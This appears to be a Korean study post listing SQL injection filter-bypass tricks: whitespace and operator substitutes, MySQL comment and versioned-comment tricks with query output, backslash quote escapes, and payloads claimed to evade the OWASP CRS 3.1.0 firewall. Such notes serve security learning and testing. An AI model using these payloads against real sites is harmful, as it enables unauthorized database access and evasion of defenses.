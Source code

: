 ```yaml
---
title : SQL Injection 필터링 우회
categories : [Hacking, Web]
tags : [SQL injection, filter bypass]
---
```


## 공백 문자 우회
<hr style="border-top: 1px solid;"><br>

```
\n(Line Feed) -> %0a

\t(TAB) -> %09

\r(Carrage Return) -> %0d

/**/(주석)

소괄호()   ex) id='()or(id='admin') #

더하기(+)  ex) id='+or+id='admin' #

%0b, %0c

대괄호[]   ex) select[id]from[table]
```

<br><br>
<hr style="border: 2px solid;"><br>
<br><br>

## 논리연산자 우회
<hr style="border-top: 1px solid;"><br>

```
or -> ||

AND -> && -> %26%26
```

<br><br>
<hr style="border: 2px solid;"><br>
<br><br>

## 비교연산자 우회
<hr style="border-top: 1px solid;"><br>

```
= -> like, in으로 대체
```

<br><br>
<hr style="border: 2px solid;"><br>
<br><br>

## 주석처리
<hr style="border-top: 1px solid;"><br>

```
1. -- 공백 -> -- 뒤에 공백 있어야 함, 한줄 주석

2. # -> %23 -> 한줄 주석
```

<br>

```
3. /* */ -> 사이에 있는 문자열만 주석 
         -> /* /* */ */ 이렇게 있으면 먼저 열리고 먼저 닫힌 것 사이만 주석처리 

ex) select id from rubiya where id='admin' /*or 1/* and id='admin'*/
-> 실행됨.

ex) select id from rubiya where id='admin' /*or 1/* and */id='admin'*/
-> 에러
```

<br>

```
4. ;%00 -> ;와 NULL이 합쳐진 주석
```

<br>

```
5. /*!a b*/ -> a에는 mysql version, b에는 sql 문
            -> 해당 db 버전이 a 미만일 때 주석 처리됨.
            

https://dev.mysql.com/doc/refman/8.0/en/comments.html
```

<br>

```            
ex) /*!50000 or id='admin'*/ -> 해당 db가 5.X버전 이하이면 주석 실행 

mysql> select version();
+-------------------------+
| version()               |
+-------------------------+
| 5.7.32-0ubuntu0.18.04.1 |
+-------------------------+


mysql> select id from rubiya where id='' /*!60000 or id='admin'*/;
Empty set (0.00 sec)

-> 내 버전은 5.7이므로 6버전 이하라서 주석 실행


mysql> select id from rubiya where id='' /*!50000 or id='admin'*/ ;
+-------+
| id    |
+-------+
| admin |
+-------+
1 row in set (0.00 sec)
```

<br>

이거로 db 버전을 알아낼 수도 있음.

<br>

```
mysql> select /*!50732 1/0, */ 1 from rubiya;
+------+---+
| 1/0  | 1 |
+------+---+
| NULL | 1 |
| NULL | 1 |
| NULL | 1 |
+------+---+
3 rows in set, 3 warnings (0.00 sec)
```

<br>

```
mysql> select /*!50733 1/0, */ 1 from rubiya;
+---+
| 1 |
+---+
| 1 |
| 1 |
| 1 |
+---+
3 rows in set (0.00 sec)
```

<br>

```
5.07.32는 주석 처리가 안되고 5.07.33에서는 주석처리 되는 것을 보아

이 db의 버전은 5.07.32인 것을 알아낼 수 있음.
```

<br><br>
<hr style="border: 2px solid;"><br>
<br><br>

## 싱글쿼터 우회
<hr style="border-top: 1px solid;"><br>

```
1. 더블쿼터 사용

2. 백슬래쉬 사용(\) ex) id='\' and pw='or 1 #'
  -> id 값으로 \' and pw=이 들어가고 그 뒤에 or 1 # 되면서 작동
```

<br><br>
<hr style="border: 2px solid;"><br>
<br><br>

## CRS 3.1.0 WAF 우회
<hr style="border-top: 1px solid;"><br>

```
1. {`a` b} -> a는 함수 이름(아무거나), b는 sql문

  ex) ?id='' or {`if` 1} %23

2. <@

  ex) ?id=' <@ or 1 %23

  ex) ?id=' <@ union/**/select 1 %23
```

<br><br>
<hr style="border: 2px solid;"><br>
<br><br>
